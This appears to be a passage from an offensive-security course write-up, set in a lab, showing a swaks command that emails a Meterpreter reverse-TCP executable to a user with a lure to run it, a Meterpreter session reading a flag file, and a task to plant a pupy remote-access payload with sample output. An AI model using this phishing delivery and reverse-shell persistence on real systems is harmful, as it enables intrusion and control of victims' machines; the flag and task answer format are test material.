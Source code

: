
7. Return to the first Kali terminal and send Payload to Win10:
```bash
$ swaks --to mike@sandbox.local --from administrator@sandbox.local --header "Subject: Updates" --body "Please run this exe file for updates" --server 10.0.2.15 --attach windows-meterpreter-staged-reverse-tcp-443.exe
```
8. In a second terminal, start the Meterpreter session:
```bash
meterpreter > ls - we ended up in C:\Windows\system32
meterpreter > cd ..
meterpreter > ls - we ended up in C:\Windows
meterpreter > cd ..
meterpreter > ls - we ended up in C:
meterpreter > cd users
meterpreter > cd Mike
meterpreter > cd Desktop
meterpreter > cat root.txt
54817fe7049221c92542027300015b60
```

# Level 3 — 8.3 — Practice "Securing Access"

## Task
Exploit the vulnerabilities of the application deployed at http://localhost:1337 that you already know. Now, after exploiting the vulnerabilities, generate a load to secure access to the system using the pupy utility. Send this payload to the compromised system and run it there.

As proof of successful exploitation, provide the information output by the load generated and run on the affected system using the info command.
(Specify the entire output of the info command as an answer to the assignment)

An example of the output of the info command (The example contains errors so that it cannot be used to provide as an answer):
```bash
hostname 0de31e0fa758
user root
release 5.10.104-linuxkit
os_arch x86_64
proc_arch 64bit
pid 170
exec_path?
cid 000000006b6200bb
address 172.18.0.2
macaddr 00:00:00:00:00:00
revision?
node 000000000000
debug_logfile ?
version #1 SMP PREEMPT Thu Mar 17 17:05:54 UTC 2022
native True
proxy wpad
cmdline /bin/daemon
external_ip ?
launcher connect
launcher_args -t ssl --host 172.18.0.3:8443
platform linux/arm64
```
